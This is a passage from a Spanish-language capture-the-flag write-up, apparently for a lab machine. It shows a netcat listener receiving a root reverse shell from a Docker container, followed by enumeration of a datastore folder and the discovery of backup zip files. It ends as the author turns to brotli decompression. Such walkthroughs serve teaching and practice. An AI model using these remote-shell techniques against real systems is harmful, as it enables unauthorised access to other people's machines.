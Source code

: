 Conseguimos acceso como *root* al **docker**, 
```console
sudo nc -nvlp 443   
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.152] from (UNKNOWN) [10.10.11.34] 52312
# id
id
uid=0(root) gid=0(root) groups=0(root)
# ls -lna
ls -lna
total 24
drwxr-xr-x 1 0 0 4096 Sep 13 12:24 .
drwxr-xr-x 1 0 0 4096 Sep 26 11:03 ..
-rwxr-xr-x 1 0 0  106 Apr 18  2024 changedetection.py
drwxr-xr-x 1 0 0 4096 Sep 16 15:32 changedetectionio
# 
```

Realizamos un reconocimiento sobre el **docker**, enumeramos una carpeta llamada *datastore*, vemos una estructura similar al backup anteriormente descargado, pero con la diferencia de un directorio extra llamada *Backups*, descargamos ambos ficheros *zip*:
```console
# ls /
ls /
app  boot	dev  home  lib64  mnt  proc  run   srv	tmp  var
bin  datastore	etc  lib   media  opt  root  sbin  sys	usr
# cd /datastore
cd /datastore
# ls
ls
5205dd3b-8a75-45ab-822a-fad680ab83e1  secret.txt	      url-list.txt
Backups				      url-list-with-tags.txt  url-watches.json
# cd Backups
cd Backups
# ls
ls
changedetection-backup-20240830194841.zip
changedetection-backup-20240830202524.zip
```
Descomprimimos los ficheros *zip*, nos encontramos que algunos son legibles, otros son ilegibles con extensión *.txt.br*, preguntamos a **ChatGPT** e identificamos que hay que descomprimirlo con un software llamado **brotli**: